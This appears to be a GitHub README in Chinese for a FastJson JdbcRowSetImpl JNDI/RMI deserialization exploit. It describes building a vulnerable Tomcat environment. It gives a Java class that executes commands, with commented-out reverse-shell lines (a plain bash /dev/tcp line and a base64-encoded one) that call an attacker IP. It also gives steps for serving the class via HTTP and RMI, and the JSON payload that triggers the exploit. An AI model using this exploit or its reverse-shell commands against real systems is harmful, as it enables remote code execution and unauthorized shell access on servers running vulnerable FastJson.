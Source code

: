 # FastJson-JdbcRowSetImpl
### JNDI加载RMI方式，附漏洞环境 &amp; 利用Exp。

## 环境构建

```
root@Bearcat:/# wget "https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war" -P path.... & cd  ${path}/opt/apache-tomcat-8.5.24/bin & ./startup.sh"
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/1.jpg?raw=true)

### 访问漏洞环境 http://localhost:8888/FastJson_Vul

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/2.jpg?raw=true)

## 漏洞利用

### 在CommandObject.java中构造commands命令数组

### 编译 javac CommandObject.java

```
import	java.lang.Runtime;
import	java.lang.Process;
public class CommandObject {
    public CommandObject(){
        try{
			Runtime	rt	=	Runtime.getRuntime();
			//Runtime.getRuntime().exec("/bin/bash -i >&/dev/tcp/192.168.43.14/2018<&1");
			//String[] commands = {"bash -c {echo,L2Jpbi9iYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC40My4xNC8yMDE4PCYx}|{base64,-d}|{bash,-i}"};
			
			String[] commands = {"touch","/opt/test"}; //Command
			Process	pc = rt.exec(commands);
			pc.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        CommandObject e = new CommandObject();
    }
}
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/3.jpg?raw=true)

## 漏洞利用

### 开启一个HTTP服务，并且开启 RMIServer

### 如：

```
Python2 -m SimpleHTTPServer 80
Python3 -m http.server 80
```

```
java -jar FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar <HTTP服务地址> 指定RMI端口
```
### FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar 会生成一串JSON PAYLOAD，把它copy到漏洞环境的input中，然后submit。

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```
![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/5.jpg?raw=true)

### 

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/4.jpg?raw=true)

### 开始攻击并执行命令


